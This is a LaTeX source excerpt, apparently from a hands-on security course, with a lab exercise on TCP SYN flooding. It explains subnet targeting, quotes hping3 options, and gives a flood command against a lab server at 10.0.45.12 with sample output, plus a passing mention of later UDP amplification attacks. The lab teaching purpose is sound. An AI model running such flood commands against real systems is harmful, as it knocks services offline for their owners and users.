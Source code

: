 \documentclass[a4paper,11pt,notitlepage]{report}
\begin{document}
Also now make sure you understand difference between single host scan
10.0.45.123/32, a whole subnet /24 ~250 hosts 10.0.45.0/24 and other more advanced targeteting like 10.0.45.0/25 and 10.0.45.1-10

We will now assume port 80/443 are open, as well as a few UDP services - maybe we can use them in amplification attacks later.

\chapter{TCP SYN flooding 30min}
\label{ex:syn-flood}

{\bf Objective:}\\
Start a webserver attack using SYN flooding tool hping3.

{\bf Purpose:}\\
See how easy it is to produce packets on a network using hacker programs.

The tool we will use is very flexible and can produce ICMP, UDP and TCP using very few options. This tool is my primary one for doing professsional DDoS testing.

\begin{alltt}\footnotesize
-1 --icmp
       ICMP  mode,  by  default  hping3  will  send  ICMP echo-request, you can set other ICMP
       type/code using --icmptype --icmpcode options.

-2 --udp
       UDP mode, by default hping3 will send udp to target host's port 0.  UDP header  tunable
       options are the following: --baseport, --destport, --keep.
\end{alltt}

TCP mode is default, so no option needed.


{\bf Suggested method:}\\
Connect to the LAB network using Ethernet! Borrow a USB network card if you dont have one.

Start your Kali VM in bridged mode, try a basic TCP flooding attack against the server provided by the instructor, or your own Debian server.

Try doing the most common attacks TCP SYN flood using hping3:

\begin{alltt}
hping3 --flood -p 80 -S 10.0.45.12
\end{alltt}

You should see something like this:
\begin{alltt}\footnotesize
HPING 10.0.45.12: NO FLAGS are set, 40 headers + 0 data bytes
hping in flood mode, no replies will be shown
^C
--- 10.0.45.12 hping statistic ---
352339 packets transmitted, 0 packets received, 100% packet loss
round-trip min/avg/max = 0.0/0.0/0.0 ms
\end{alltt}
\end{document}
